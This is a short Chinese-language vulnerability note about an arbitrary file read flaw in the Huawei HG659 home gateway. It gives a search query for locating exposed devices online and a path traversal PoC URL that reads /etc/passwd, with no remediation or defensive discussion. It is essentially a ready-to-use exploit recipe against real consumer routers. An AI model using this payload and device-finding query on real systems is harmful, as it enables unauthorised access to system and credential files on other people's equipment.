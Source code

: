 # 

# Huawei HG659 lib 任意文件读取漏洞

## 漏洞描述

Huawei HG659 lib 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

```
Huawei HG659
```

## 网络测绘

```
app="HUAWEI-Home-Gateway-HG659"
```

## 漏洞复现

登录页面如下

![](./images/202202110951141.png)

POC如下

```plain
/lib///....//....//....//....//....//....//....//....//etc//passwd
```

![](./images/202202110951927.png)
